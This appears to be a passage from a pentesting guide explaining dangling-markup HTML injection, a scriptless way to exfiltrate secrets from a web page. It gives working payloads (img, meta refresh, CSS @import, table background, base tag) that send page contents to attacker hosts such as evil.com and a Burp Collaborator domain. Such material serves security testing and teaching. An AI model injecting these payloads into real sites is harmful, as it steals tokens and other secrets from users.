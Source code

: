 # Dangling Markup - HTML scriptless injection

{{#include ../../banners/hacktricks-training.md}}

## Resume

This technique can be use to extract information from a user when an **HTML injection is found**. This is very useful if you **don't find any way to exploit a** [**XSS** ](../xss-cross-site-scripting/)but you can **inject some HTML tags**.\
It is also useful if some **secret is saved in clear text** in the HTML and you want to **exfiltrate** it from the client, or if you want to mislead some script execution.

Several techniques commented here can be used to bypass some [**Content Security Policy**](../content-security-policy-csp-bypass/) by exfiltrating information in unexpected ways (html tags, CSS, http-meta tags, forms, base...).

## Main Applications

### Stealing clear text secrets

If you inject `<img src='http://evil.com/log.cgi?` when the page is loaded the victim will send you all the code between the injected `img` tag and the next quote inside the code. If a secret is somehow located in that chunk, you will steal i t(you can do the same thing using a double quote,take a look which could be more interesting to use).

If the `img` tag is forbidden (due to CSP for example) you can also use `<meta http-equiv="refresh" content="4; URL='http://evil.com/log.cgi?`

```html
<img src='http://attacker.com/log.php?HTML=
<meta http-equiv="refresh" content='0; url=http://evil.com/log.php?text=
<meta http-equiv="refresh" content='0;URL=ftp://evil.com?a=
```

Note that **Chrome blocks HTTP URLs** with "<" or "\n" in it, so you could try other protocol schemes like "ftp".

You can also abuse CSS `@import` (will send all the code until it find a ";")

```html
<style>@import//hackvertor.co.uk?     <--- Injected
<b>steal me!</b>;
```

You could also use **`<table`**:

```html
<table background='//your-collaborator-id.burpcollaborator.net?'
```

You could also insert a `<base` tag. All the information will be sent until the quote is closed but it requires some user interaction (the user must click in some link, because the base tag will have changed the domain pointed by the link):

```html
<base target='        <--- Injected
steal me'<b>test</b>
```
